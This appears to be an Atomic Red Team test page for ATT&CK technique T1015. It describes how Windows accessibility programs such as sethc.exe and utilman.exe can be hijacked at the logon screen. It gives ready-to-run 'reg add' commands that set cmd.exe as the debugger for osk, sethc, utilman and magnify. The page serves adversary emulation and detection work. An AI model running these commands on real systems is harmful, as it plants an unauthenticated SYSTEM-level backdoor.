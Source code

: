 ```yaml
---
title: T1015 - Accessibility Features
published: true
---
```

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1015)
<blockquote>Windows contains accessibility features that may be launched with a key combination before a user has logged in (for example, when the user is on the Windows logon screen). An adversary can modify the way these programs are launched to get a command prompt or backdoor without logging in to the system.
<br/><br/>
Two common accessibility programs are <code>C:\Windows\System32\sethc.exe</code>, launched when the shift key is pressed five times and <code>C:\Windows\System32\utilman.exe</code>, launched when the Windows + U key combination is pressed. The sethc.exe program is often referred to as "sticky keys", and has been used by adversaries for unauthenticated access through a remote desktop login screen. (Citation: FireEye Hikit Rootkit)
<br/><br/>
Depending on the version of Windows, an adversary may take advantage of these features in different ways because of code integrity enhancements. In newer versions of Windows, the replaced binary needs to be digitally signed for x64 systems, the binary must reside in <code>%systemdir%\</code>, and it must be protected by Windows File or Resource Protection (WFP/WRP). (Citation: DEFCON2016 Sticky Keys) The debugger method was likely discovered as a potential workaround because it does not require the corresponding accessibility feature binary to be replaced. Examples for both methods:
<br/><br/>
For simple binary replacement on Windows XP and later as well as and Windows Server 2003/R2 and later, for example, the program (e.g., <code>C:\Windows\System32\utilman.exe</code>) may be replaced with "cmd.exe" (or another program that provides backdoor access). Subsequently, pressing the appropriate key combination at the login screen while sitting at the keyboard or when connected over <a href="https://attack.mitre.org/techniques/T1076">Remote Desktop Protocol</a> will cause the replaced file to be executed with SYSTEM privileges. (Citation: Tilbury 2014)
<br/><br/>
For the debugger method on Windows Vista and later as well as Windows Server 2008 and later, for example, a Registry key may be modified that configures "cmd.exe," or another program that provides backdoor access, as a "debugger" for the accessibility program (e.g., "utilman.exe"). After the Registry is modified, pressing the appropriate key combination at the login screen while at the keyboard or when connected with RDP will cause the "debugger" program to be executed with SYSTEM privileges. (Citation: Tilbury 2014)
<br/><br/>
Other accessibility features exist that may also be leveraged in a similar fashion: (Citation: DEFCON2016 Sticky Keys)
<br/><br/>
- On-Screen Keyboard: <code>C:\Windows\System32\osk.exe</code><br/>
- Magnifier: <code>C:\Windows\System32\Magnify.exe</code><br/>
- Narrator: <code>C:\Windows\System32\Narrator.exe</code><br/>
- Display Switcher: <code>C:\Windows\System32\DisplaySwitch.exe</code><br/>
- App Switcher: <code>C:\Windows\System32\AtBroker.exe</code></blockquote>

## Atomic Tests

- [Atomic Test #1 - Attaches Command Prompt As Debugger To Process - osk](#atomic-test-1---attaches-command-prompt-as-debugger-to-process---osk)

- [Atomic Test #2 - Attaches Command Prompt As Debugger To Process - sethc](#atomic-test-2---attaches-command-prompt-as-debugger-to-process---sethc)

- Atomic Test #3 - Attaches Command Prompt As Debugger To Process - utilman

- Atomic Test #4 - Attaches Command Prompt As Debugger To Process - magnify

- Atomic Test #5 - Attaches Command Prompt As Debugger To Process - narrator

- Atomic Test #6 - Attaches Command Prompt As Debugger To Process - DisplaySwitch

- Atomic Test #7 - Attaches Command Prompt As Debugger To Process - AtBroker


## Atomic Test #1 - Attaches Command Prompt As Debugger To Process - osk
This allows adversaries to execute the attached process

**Supported Platforms:** Windows

#### Inputs

| Name | Description | Type | Default Value | 
|:------:|:-------------:|:------:|:---------------:|
| target_executable | File You Want To Attach cmd To | String | osk.exe|

#### Run it with `command_prompt`!

```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_executable}" /v "Debugger" /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
```


## Atomic Test #2 - Attaches Command Prompt As Debugger To Process - sethc
This allows adversaries to execute the attached process

**Supported Platforms:** Windows

#### Inputs

| Name | Description | Type | Default Value | 
|:------:|:-------------:|:------:|:---------------:|
| target_executable | File You Want To Attach cmd To | String | sethc.exe|

#### Run it with `command_prompt`!

```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_executable}" /v "Debugger" /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
```


## Atomic Test #3 - Attaches Command Prompt As Debugger To Process - utilman
This allows adversaries to execute the attached process

**Supported Platforms:** Windows

#### Inputs

| Name | Description | Type | Default Value | 
|:------:|:-------------:|:------:|:---------------:|
| target_executable | File You Want To Attach cmd To | String | utilman.exe|

#### Run it with `command_prompt`!

```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_executable}" /v "Debugger" /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
```


## Atomic Test #4 - Attaches Command Prompt As Debugger To Process - magnify
This allows adversaries to execute the attached process

**Supported Platforms:** Windows

#### Inputs

| Name | Description | Type | Default Value | 
|:------:|:-------------:|:------:|:---------------:|
| target_executable | File You Want To Attach cmd To | String | magnify.exe|

#### Run it with `command_prompt`!

```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_executable}" /v "Debugger" /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
```
